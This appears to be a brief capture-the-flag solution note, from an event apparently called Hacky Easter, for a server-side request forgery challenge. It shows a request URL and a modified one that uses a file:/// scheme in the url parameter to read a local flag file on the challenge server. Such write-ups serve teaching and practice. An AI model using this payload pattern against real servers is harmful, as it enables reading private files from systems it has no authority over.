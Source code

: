 # solution
- SSRF - server side request forgery
- note that requests are sent to URLs like
  - `http://ch.hackyeaster.com:2316/get?url=http://trek:1337/trek`
- manipulate url parameter to read flag locally
  - `http://ch.hackyeaster.com:2316/get?url=file:///flag`